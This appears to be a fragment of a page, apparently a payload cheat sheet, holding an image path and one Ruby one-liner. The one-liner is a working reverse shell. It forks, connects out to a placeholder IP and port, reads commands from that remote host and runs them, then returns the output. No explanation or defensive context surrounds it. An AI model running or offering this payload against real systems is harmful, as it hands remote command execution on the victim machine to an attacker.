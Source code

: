 ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<IP>","<PORT>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
